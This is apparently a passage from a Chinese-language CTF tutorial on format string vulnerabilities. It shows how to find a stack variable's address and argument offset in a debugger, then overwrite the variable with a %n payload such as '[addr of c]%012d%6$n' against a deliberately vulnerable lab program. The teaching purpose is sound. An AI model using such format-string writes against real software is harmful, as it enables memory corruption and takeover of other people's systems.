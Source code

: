 makefile在对应的文件夹中。而无论是覆盖哪个地址的变量，我们基本上都是构造类似如下的payload

```text
...[overwrite addr]....%[overwrite offset]$n
```

其中...表示我们的填充内容，overwrite addr 表示我们所要覆盖的地址，overwrite offset地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。所以一般来说，也是如下步骤

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

## 覆盖栈内存

### 确定覆盖地址

首先，我们自然是来想办法知道栈变量c的地址。由于目前几乎上所有的程序都开启了aslr保护，所以栈的地址一直在变，所以我们这里故意输出了c变量的地址。

### 确定相对偏移

其次，我们来确定一下存储格式化字符串的地址是printf将要输出的第几个参数()。 这里我们通过之前的泄露栈变量数值的方法来进行操作。通过调试

```shell
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484d7  →  <main+76> add esp, 0x10	 ← $esp
0xffffcd10│+0x04: 0xffffcd28  →  "%d%d"
0xffffcd14│+0x08: 0xffffcd8c  →  0x00000315
0xffffcd18│+0x0c: 0x000000c2
0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: 0xffffcd4e  →  0xffff0000  →  0x00000000
0xffffcd24│+0x18: 0xffffce4c  →  0xffffd07a  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd28│+0x1c: "%d%d"	 ← $eax
```

我们可以发现在0xffffcd28处存储着变量c的数值。继而，我们再确定格式化字符串'%d%d'的地址0xffffcd28相对于printf函数的格式化字符串参数0xffffcd10的偏移为0x18，即格式化字符串相当于printf函数的第7个参数，相当于格式化字符串的第6个参数。

### 进行覆盖

这样，第6个参数处的值就是存储变量c的地址，我们便可以利用%n的特征来修改c的值。payload如下

```text
[addr of c]%012d%6$n
```

addr of c 的长度为4，故而我们得再输入12个字符才可以达到16个字符，以便于来修改c的值为16。
